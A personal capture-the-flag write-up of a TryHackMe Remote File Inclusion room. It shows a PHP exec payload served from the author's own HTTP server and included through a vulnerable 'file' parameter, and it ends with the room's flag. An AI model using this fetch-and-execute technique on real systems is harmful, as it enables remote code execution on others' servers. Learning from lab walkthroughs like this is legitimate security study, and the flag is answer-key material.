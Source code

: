 ```yaml
---
title: Remote Code Execution CTF
weight: 4
---
```


[Link to the exercise](https://tryhackme.com/room/fileinc)

## Goal

Contrary to [lfi-ctf-1](/knowledge/OffSec/write-ups/thm/lfi-ctf-1.md) and later ones, this CTF is about finding a flag hidden as a `hostname` with [Remote File Inclusion](/knowledge/OffSec/pentesting/RFI.md).

## Steps

### Recce

I've opened the web app and tried to `include` a bunch of files that might exist already in the filesystem ([LFI](/knowledge/OffSec/pentesting/LFI.md)) - to no avail. Since the challenge is about [RFI](/knowledge/OffSec/pentesting/RFI.md), I've written a simple PHP script that'd echo a string to see if RFI is possible _out-of-the-box_:

```php
<?php
echo "hostname";
?>
```

Since I didn't know where to host that file, I've started `SimpleHTTPServer` with

```sh
python -m http.server ~/Desktop
```

(as I saved my script on the desktop).

Then I tried to `include` it as a query param:

```
http://10.10.55.248/playground.php?file=http://10.10.224.87:8000/hostname.php
```

(where `.55.248` is the attacked machine and `.224.87` is my AttackBox instance).

![Screenshot 2023-01-04 at 21.18.30](/public/Screenshot%202023-01-04%20at%2021.18.30.png)

Good. The string was included.

### Exploitation

Since I've found the vulnerability, I've modified my script a bit to use PHPs' [exec fn](https://www.php.net/manual/en/function.exec.php):

```php
<?php
echo exec("hostname");
?>
```

and refreshed the page.

## Flag

`lfi-vm-thm-f8c5b1a78692`
